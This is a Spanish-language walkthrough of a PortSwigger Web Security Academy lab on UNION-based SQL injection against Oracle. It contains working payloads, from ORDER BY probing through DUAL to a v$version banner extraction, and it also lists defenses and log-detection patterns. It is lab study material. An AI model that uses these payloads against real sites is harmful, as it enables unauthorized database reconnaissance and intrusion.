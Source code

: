 # SQL injection attack, querying the database type and version on Oracle

**Categoría:** SQLi

**Dificultad:** Practitioner

**Fuente:** PortSwigger Web Security Academy

---

# 🎯 Resumen

* **Objetivo del lab**: Usar un ataque UNION para descubrir la versión de la base de datos (Oracle).
* **Vulnerabilidad principal**: SQL Injection en el parámetro `category`.
* **Impacto esperado**: Exposición de información sensible sobre la versión de la base de datos (banner).

---

# 🧭 Reconocimiento

* **Parámetro vulnerable**: `category` en `/filter`.
* **Prueba de inyección inicial**:

  ```http
  GET /filter?category=Gifts' order by 100-- -   # Error 500 → demasiadas columnas
  GET /filter?category=Gifts' order by 2-- -     # 200 OK → tabla tiene 2 columnas
  ```
* **Observación**: El error 500 indica desajuste en número de columnas.
* **Hipótesis inicial**: Se trata de un entorno Oracle porque MySQL/Postgres no suelen requerir una tabla dummy (`DUAL`).

---

# 🛠️ Explotación paso a paso

## Paso 1 – Determinar número de columnas

* **Qué hago**: Uso `ORDER BY` para adivinar cuántas columnas hay en la consulta original.
* **Por qué funciona**: Si pido más columnas de las que existen, la base de datos devuelve error.
* **Evidencia**: `order by 100` rompe, `order by 2` funciona → la consulta usa 2 columnas.

## Paso 2 – Probar un UNION básico

* **Qué hago**: `UNION SELECT NULL,NULL-- -`
* **Resultado**: Error 500 → indica que falta algo en la sintaxis.
* **Explicación**: En Oracle, cualquier `SELECT` debe extraer datos de al menos una tabla. A diferencia de MySQL/Postgres, no puedes usar `SELECT` sin `FROM`.

## Paso 3 – Uso de tabla DUAL (propia de Oracle)

* **Qué hago**: `UNION SELECT NULL,NULL from DUAL-- -`
* **Por qué funciona**: `DUAL` es una tabla ficticia de una sola fila incluida en Oracle para este tipo de queries.
* **Evidencia**: Respuesta 200 OK → confirmación de que es Oracle.

## Paso 4 – Confirmar inyección controlada

* **Qué hago**: `UNION SELECT 'ABC','TEST' from DUAL-- -`
* **Por qué**: Si aparece en pantalla, significa que puedo inyectar resultados.
* **Evidencia**: En la web se ven “ABC” y “TEST” → confirmación de ejecución.

## Paso 5 – Extraer versión de Oracle

* **Qué hago**:

  ```http
  GET /filter?category=Gifts' UNION SELECT banner,NULL from v$version-- -
  ```
* **Por qué funciona**: `v$version` es una vista de Oracle que muestra la versión del motor y otros detalles.
* **Evidencia**: La respuesta muestra el banner con la versión exacta de Oracle.

---

# ✅ PoC mínima

```http
GET /filter?category=Gifts' UNION SELECT banner,NULL from v$version-- -
Host: <lab-id>.web-security-academy.net
```

Esto devuelve el banner de la versión de Oracle.

---

# 🔒 Defensa

* **Causas**: Entrada no sanitizada concatenada en consultas dinámicas.
* **Detección en logs**:

  * Parámetros que contienen `UNION`, `DUAL`, `v$version`
  * Errores 500 inusuales tras parámetros sospechosos
* **Mitigación recomendada**:

  * Consultas parametrizadas (*prepared statements*)
  * Restringir privilegios: un usuario de aplicación nunca debería poder consultar `v$version`
  * WAF/IDS que identifique patrones de `UNION SELECT`

---

# 📝 Notas y trampas

* **Oracle vs MySQL/Postgres**:

  * Oracle requiere `from DUAL` en queries sin tabla, otros motores no.
  * Las vistas del sistema varían: en MySQL se usa `@@version`, en Postgres `version()`.
* El espacio tras `--` es obligatorio en Oracle para que el resto de la consulta se considere comentario.
* Los banners de versión pueden dar información muy sensible (parches, release exacto) útil para un atacante.

---

# 📚 Referencias

* [PortSwigger Lab – SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/union-attacks/lab-querying-database-version-oracle)
* [Oracle Docs – The DUAL table](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/DUAL.html)
* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
